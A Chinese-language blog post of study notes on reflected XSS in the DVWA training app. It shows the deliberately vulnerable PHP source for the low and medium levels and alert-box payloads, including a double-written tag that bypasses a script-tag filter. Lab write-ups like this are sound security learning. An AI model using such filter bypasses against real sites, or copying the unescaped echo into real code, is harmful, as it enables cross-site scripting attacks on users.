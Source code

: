 ```yaml
---
layout: post
title: DVWA-xss利用
subtitle: xss
date: 2020-07-20
author: mr_king
header-img: img/background.jpg
catalog: true
tags: 
    -xss
    -web
    -学习笔记
---
```

# XSS(Reflected)
#### low

1.源码
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>

```
可以发现，没有任何过滤，直接构造payload：```payload:<script>alert('1')</script>```
[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-t6dV3zFr-1595506106990)(https://raw.githubusercontent.com/MrKing00/imagine/master/img20200723190551.png)]

#### Medium
2.源码
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```
发现过滤了\<script\>,可以使用双写绕过，构造payload:```payload:<scr<script>ipt>alert('1')</script>```
[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-7AWZIN5g-1595506106993)(https://raw.githubusercontent.com/MrKing00/imagine/master/img20200723192230.png)]
